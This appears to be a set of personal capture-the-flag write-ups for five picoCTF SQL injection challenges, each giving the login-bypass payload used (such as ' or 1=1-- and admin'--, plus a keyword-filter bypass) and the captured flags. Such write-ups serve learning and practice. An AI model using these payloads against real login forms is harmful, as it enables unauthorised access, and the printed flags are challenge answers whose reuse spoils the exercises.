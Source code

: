 ![image](https://github.com/ShudarsanRegmi/ctf-writeups/assets/65646203/adb6d292-2342-4cc7-901b-434eab54a73d)# SQL Injection Writeups

## 1. More SQL; PicoCTF Easy Challenge

There was a sql injection in the login page page. At first could not detect it, as I was getting 500 respone for all the input payloads. At the end I came to know that the database was not mysql because `#` was not working as comment. When I changed `#` to `--`, I was able to grab the flag.
![image](https://github.com/ShudarsanRegmi/ctf-writeups/assets/65646203/e3a87c23-310e-472d-b75c-7cd8fa16df3d)

### Payloads
```sql
usernmae=user&passowrd='+or+1=1--
```
### 2. SQLiite  picoCTF challenge
Had a login page with field username and password. Although it didn't show any changed response upon trying test payloads. It was indeed vulnerable to SQLi. Got the flag by trying the simple payload. The main catch here could be the use of database sqlite. Sqlite doesn't use `#` as comment. So, you have to use `--` instead.
## Payloads
```http
username=admin'+or+1=1--&password=asdf&debug=0
```
**Flag:**picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}
![image](https://github.com/ShudarsanRegmi/ctf-writeups/assets/65646203/7e18200b-3491-4423-bde7-3ef0cce0ed1a)

## 3. Irish Name Repo 1, Very simple SQli based challenge

Just a simple payload in login form yielded

### Payloads

```http
username=admin'+or+1=1--&password=admin&debug=1
```
![image](https://github.com/ShudarsanRegmi/ctf-writeups/assets/65646203/7ccc383c-b2c7-4f19-9852-1be5c332ee17)

## 4. Web Gautlet 2
It was a easy level sql injection challenge in picoCTF. The main challenge here was that the common payloads that are used for sql injections were being filtered out. Keywrods like admin,and special symbols like = < > ; or were getting filtered. So the challenge was to bypass this very simple filter implementation.
Manged to get the flag with the payload below. 

### Payload
```
user=ad'||'min&pass=a'+is+not+'b
```
![image](https://github.com/ShudarsanRegmi/ctf-writeups/assets/65646203/05a0c89f-65c5-44f2-96ae-63ec7dad2f4d)

Finally got the flag in /filter.php
```
picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
```

## 5. Irish Name Repo 2
It was a very simple SQLI picoCTF challenge. It evaded me for a very long time in the beginning as I thought by passiing `'` would be the challenge. At the end, I got the flag by around with other simple payloads.

### Payload

```http
username=admin'--&password=abcd&debug=1
# just comment out the password check part and set username to admin
```
![image](https://github.com/ShudarsanRegmi/ctf-writeups/assets/65646203/81104ca5-3ffe-4e88-83d8-74fc94dbe5aa)

**Flag:** picoCTF{m0R3_SQL_plz_aee925db}

